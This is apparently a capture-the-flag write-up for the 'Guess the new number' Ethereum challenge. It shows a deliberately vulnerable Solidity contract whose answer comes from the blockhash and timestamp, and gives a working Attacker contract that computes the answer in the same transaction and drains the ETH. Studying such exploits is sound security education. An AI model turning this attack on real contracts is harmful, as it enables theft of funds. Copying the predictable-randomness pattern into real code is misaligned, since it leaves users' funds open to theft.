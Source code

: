# Guess the new number

```
pragma solidity ^0.4.21;

contract GuessTheNewNumberChallenge {
    function GuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```
## Goal

Guess the number to win and get all the ETH from the smart contract

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

From the contract we see that the answer is calulated in the following way:

```
  uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), 
```

Because of the atomic nature of ethereum tranactions (they all happen at once, at the same block), we can create Attacker contract, and calculate the answer using the above formula and call the guess(uint8 n) function of the  GuessTheNewNumberChallenge contract from within the Attacker contract.

To exploit the contract we need to:

1. create Attacker contract, and create instance from the GuessTheNewNumberChallenge contract inside the Attacker contract, send ETH to the contract on deployment, we need this ETH to be able to guess later
2. create guessTheNumber() external function inside Attacker, and inside of it
  <ul>
  <li>calculate the guessing number using uint8(keccak256(block.blockhash(block.number - 1), now))</li>
  <li>call guess() function inside GuessTheNewNumberChallenge contract, with the number calculated above as argument, and the balance of the Attacker contract as value</li>
  </ul>
  
3. call guessTheNumber() function from our account

## Attacker contract code

```
contract Attacker {
  GuessTheNewNumberChallenge private guessContract;

  function Attacker(address _guessContract) public payable {
    guessContract = GuessTheNewNumberChallenge(_guessContract);
  }

  function guessTheNumber() external {
    uint8 number = uint8(keccak256(block.blockhash(block.number - 1), now));
    guessContract.guess.value(address(this).balance)(number);
  }
}
```